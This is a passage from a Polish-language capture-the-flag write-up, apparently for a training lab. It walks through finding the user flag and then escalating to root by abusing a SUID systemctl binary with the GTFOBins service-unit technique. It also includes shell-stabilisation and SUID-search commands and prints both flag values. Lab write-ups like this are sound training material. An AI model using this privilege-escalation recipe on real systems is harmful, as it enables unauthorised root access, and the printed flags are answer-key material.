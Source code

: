 
Gdy wejdziemy w folder /home i wpiszemy polecenie `ls` zobaczymy nazwę użytkownika *bill*, zatem możemy odpowiedzieć na pytanie kto zarządza tym serwerem.


![](p/12.png)


Przejdźmy teraz do folderu *bill* i otwórzmy plik *user.txt* (poleceniem `cat user.txt`) który zawiera pierwszą flagę. 

Flaga: `8bd7992fbe8a6ad22a63361004cfcedb`


![](p/13.png)


## **Task 4 - Privilege Escalation**

W międzyczasie możemy ustabilizować naszego shella poleceniem:

    python -c 'import pty; pty.spawn("/bin/bash")'

Poszukujemy plików które mają ustawiony bit SUID, robimy to poleceniem:

    find / -perm -u=s -type f 2>/dev/null

Z całego outputu najbardziej wyróżnia się */bin/systemctl*. `systemctl` może służyć do kontrolowania usług i zarządzania nimi systemd. Systemd składa się z zestawu demonów, bibliotek i narzędzi, które umożliwiają administrację i konfigurację systemu oraz interakcję z rdzeniem systemu Gnu / Linux.

Skorzystamy z strony: [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid), możemy tam znaleźć pełną instrukcję jak należy dokonać eskalacji uprawnień związanej z poleceniem systemctl.

```bash
sudo install -m =xs $(which systemctl) .
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

Po wpisaniu `bash -p` otrzymujemy dostęp do serwera jako root! Wystarczy jednie odczytać końcową flagę w folderze */root* (`cat /root/root.txt`).

Flaga: `a58ff8579f0a9270368d33a9966c7fd5`
